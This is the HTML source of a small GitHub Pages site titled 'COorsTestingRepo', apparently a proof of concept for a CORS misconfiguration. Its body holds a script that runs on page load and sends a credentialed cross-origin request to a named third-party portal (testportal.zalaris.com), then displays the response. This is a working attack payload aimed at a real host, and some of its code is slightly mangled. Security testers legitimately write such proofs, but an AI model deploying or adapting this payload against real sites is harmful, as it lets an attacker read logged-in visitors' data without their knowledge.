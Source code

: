 <html lang="en-US"><head><meta charset="UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=edge"><meta name="viewport" content="width=device-width, initial-scale=1"><!-- Begin Jekyll SEO tag v2.8.0 --><title>COorsTestingRepo</title><meta name="generator" content="Jekyll v3.9.2" /><meta property="og:title" content="COorsTestingRepo" /><meta property="og:locale" content="en_US" /><link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" /><meta property="og:site_name" content="COorsTestingRepo" /><meta property="og:type" content="website" /><meta name="twitter:card" content="summary" /><meta property="twitter:title" content="COorsTestingRepo" /><script type="application/ld+json">{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag --><link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect"><!-- start custom head snippets, customize with your own _includes/head-custom.html file --><!-- Setup Google Analytics --><!-- You can set your favicon here --><!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" --><!-- end custom head snippets --><link rel="stylesheet" href="https://testportal.zalaris.com/neptune/?sap-client=510&appcache=PORTAL"></head><body><div class="container-lg px-3 my-5 markdown-body"><h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1><html><body><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://testportal.zalaris.com",true);xhttp.withCredentials=true;xhttp.send()}cors();</script></body></html></div><script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg="crossorigin="anonymous"></script><script>anchors.add();</script></body></html>

<link rel="stylesheet" href="https://testportal.zalaris.com/neptune/?sap-client=510&appcache=PORTAL">

